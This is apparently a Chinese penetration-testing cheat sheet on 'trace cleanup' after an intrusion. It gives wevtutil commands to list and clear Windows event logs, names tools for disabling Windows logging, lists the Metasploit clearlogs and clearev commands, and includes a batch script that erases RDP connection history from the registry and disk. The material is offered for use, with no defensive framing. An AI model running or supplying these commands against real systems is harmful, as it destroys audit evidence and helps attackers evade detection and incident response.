 ## 痕迹清理
### [Windows日志清除](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87/) 
获取日志分类列表：
```
wevtutil el >1.txt
```
获取单个日志类别的统计信息：
eg.

```
wevtutil gli "windows powershell"
```
回显：
```
creationTime: 2016-11-28T06:01:37.986Z
lastAccessTime: 2016-11-28T06:01:37.986Z
lastWriteTime: 2017-08-08T08:01:20.979Z
fileSize: 1118208
attributes: 32
numberOfLogRecords: 1228
oldestRecordNumber: 1
```
查看指定日志的具体内容：
```
wevtutil qe /f:text "windows powershell"
```
删除单个日志类别的所有信息：
```
wevtutil cl "windows powershell"
```
### 破坏Windows日志记录功能 
利用工具 
* [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m) 
* [Windwos-EventLog-Bypass](https://github.com/3gstudent/Windwos-EventLog-Bypass) 

### msf 
```
run clearlogs 
```
```
clearev 
```
### 3389登陆记录清除 
```
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
```
